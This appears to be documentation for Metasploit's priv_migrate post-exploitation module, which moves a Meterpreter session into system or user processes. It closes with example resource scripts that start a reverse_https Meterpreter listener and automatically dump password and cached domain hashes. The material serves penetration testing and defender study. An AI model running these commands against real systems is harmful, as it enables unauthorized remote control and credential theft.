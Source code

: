 ## Overview
This module evaluates a Windows Meterpreter session's privileges and migrates the session accordingly. The purpose of this module is to enable the scripting of migrations post exploitation, which allows you to immediately run post modules that require system rights.  

You can use this module in situations where incoming sessions may have mixed rights levels and the session needs to be migrated appropriately for additional post modules to run. It is also useful in situations where migration needs to occur within a short period after the session is created. 

The types of migrations that occur are described below: 

- A session with admin rights is migrated to a system owned process. 
- A session with user rights is migrated to a user level process. If a specified user level process is not running, the module will spawn it and then migrate the session. 

This module is a nice addition to the beginning of an autorun script for post-Meterpreter session creation. An example of an autorun script is provided below.

## Module Options
- **ANAME** - This option allows you to specify a system level process that the module attempts to migrate to first if the session has admin rights. 
- **NAME** - This option allows you to specify the user level process that the module attempts to migrate to first if the session has user rights or if admin migration fails through all of the default processes.  
- **KILL** - This option allows you to kill the original process after a successful migration. The default value is FALSE.
- **NOFAIL** - This option allows you to specify whether or not the module will migrate the session into a user level process if admin level migration fails. If TRUE, this may downgrade priviliged shells. The default value is FALSE.

## Module Process
Here is the process that the module follows:

- Retrieves the privilege information for the current session.
- If the session has admin rights, it attempts to migrate to a system owned process in the following order:
    - ANAME (Module option, if specified)
    - services.exe
    - wininit.exe
    - svchost.exe
    - lsm.exe
    - lsass.exe
    - winlogon.exe
- The module will not migrate if the session has System rights and is already in one of the above target processes.
- If it is unable to migrate to one of these processes, it drops to user level migration if NOFAIL is TRUE.
- If the session has user rights, it attempts to migrate to a user owned process in the following order:  
    - NAME (Module option, if specified)
    - explorer.exe
    - notepad.exe
- If it cannot migrate, it attempts to spawn the process and migrates to the newly spawned process.

## Using This Module with AutoRun Scripts
The use of autorun scripts with this module is an easy way to automate post-exploitation for incoming Meterpreter sessions. The following section describes the basic setup information and provides a script example to show how this module comes in handy.

### Basic Setup Information
Resource file (.rc) scripts can be used to automate many processes in Metasploit, particularly starting up the  console and running scripts once a session is created.

Startup scripts are executed using the following example where startup.rc is the startup script, and it is located in the user's home directory. Startup scripts are executed once the Metasploit Framework is loaded.

```
./msfconsole -r /home/user/startup.rc
```

The following is an example startup script that fires up a Meterpreter listener and specifies an autorun script that will be executed when a new session is created. In this example auto.rc is the script to be run after session creation.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.101
set LPORT 13002
set ExitOnSession false
set AutoRunScript multi_console_command -r /home/user/auto.rc
exploit -j
```

### AutoRun Script Example
This example is a script that will use priv_migrate to migrate the session based on session rights. After migration, it executes modules that will retrieve user password hashes and cached domain hashes. Each one of the hash dump modules requires system rights to be successful. Priv_migrate makes it possible to execute these modules in an autorun script. For sessions with user rights, the hash dump modules will fail, but that is unlikely to impact the state of the session.

```
run post/windows/manage/priv_migrate
run post/windows/gather/hashdump
run post/windows/gather/cachedump
```

